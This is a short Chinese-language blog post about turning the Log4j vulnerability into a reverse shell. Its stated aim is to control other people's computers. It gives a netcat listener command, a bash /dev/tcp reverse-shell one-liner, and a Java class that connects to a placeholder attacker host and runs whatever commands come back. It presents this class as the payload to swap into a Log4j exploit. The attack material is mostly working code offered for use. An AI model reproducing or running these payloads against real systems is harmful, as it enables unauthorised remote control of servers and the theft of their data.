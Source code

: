```yaml
---
title: 使用Log4j漏洞反弹shell
tags: 信息安全
categories: 信息安全
description: 如何使用正确的方式复现Log4j漏洞，利用Log4j漏洞进行攻击，反弹SHell，控制别人的电脑
keywords: 'Log4j漏洞,漏洞,攻击,Apache漏洞,Log4j,反弹shell,java反弹shell,log4j反弹shell'
abbrlink: bedb840d
date: 2021-12-24 18:47:39
---
```


前面我讲过log4j的漏洞，具体文章在这里：https://baifachuan.com/posts/659dfd84.html

如果利用这个漏洞想去控制别人的服务器，有一种方式就是可以反弹shell ， 反弹shell，其实不复杂也不陌生。

```
nc -lvp 6767
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6767
Ncat: Listening on 0.0.0.0:6767
```

用nc直接监听一个端口，然后：

```
bash -i >& /dev/tcp/127.0.0.1/6767 0>&1
```

直接就反弹了一个shell到自己的电脑上，所以如果利用log4j漏洞的话就是我把前面弹出计算器的程序的代码，换成反射shell去自己的服务器。
这样的话就可以在自己的服务器上控制别人的服务器，这里稍微有点差异的地方就是需要研究java 如何反射shell。

java总体的安全性还可以，没有那么多底层工具，所谓的反射shell不过是使用Runtime去执行一个管道命令，但是需要确保整个程序不终止。

基本就是这样了：

```
package com.fcbai.log4j.example;

public class JavaShellExec {

    public JavaShellExec(){
        try{
            Runtime r = Runtime.getRuntime();
            String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/xx.xx.xx.xx/xxxx;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process p = r.exec(cmd);
            p.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        JavaShellExec e = new JavaShellExec();
    }
}
```

有了这个反射shell代码，就可以直接利用这个漏洞去得到远程shell。
